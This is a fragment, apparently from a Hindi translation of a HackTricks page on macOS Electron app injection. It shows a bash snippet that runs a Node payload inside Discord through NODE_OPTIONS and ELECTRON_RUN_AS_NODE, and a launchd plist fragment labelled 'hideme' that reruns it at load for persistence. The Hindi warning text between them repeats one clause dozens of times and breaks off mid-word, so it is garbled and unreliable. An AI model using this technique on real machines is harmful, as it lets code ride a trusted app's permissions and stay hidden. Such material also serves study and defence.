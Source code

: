 {% code overflow="wrap" %}
```bash
# Content of /tmp/payload.js
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator');

# Execute
NODE_OPTIONS="--require /tmp/payload.js" ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
```
{% endcode %}

{% hint style="danger" %}
यदि फ्यूज **`EnableNodeOptionsEnvironmentVariable`** **अक्षम** हो जाता है, तो ऐप वायरलता को ध्यान में नहीं लेता है जब तक ऐप चलाया नहीं जाता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है जब तक इस वायरलता को ध्यान में नहीं लेता है ज
```xml
<dict>
<key>EnvironmentVariables</key>
<dict>
<key>ELECTRON_RUN_AS_NODE</key>
<string>true</string>
<key>NODE_OPTIONS</key>
<string>--require /tmp/payload.js</string>
</dict>
<key>Label</key>
<string>com.hacktricks.hideme</string>
<key>RunAtLoad</key>
<true/>
```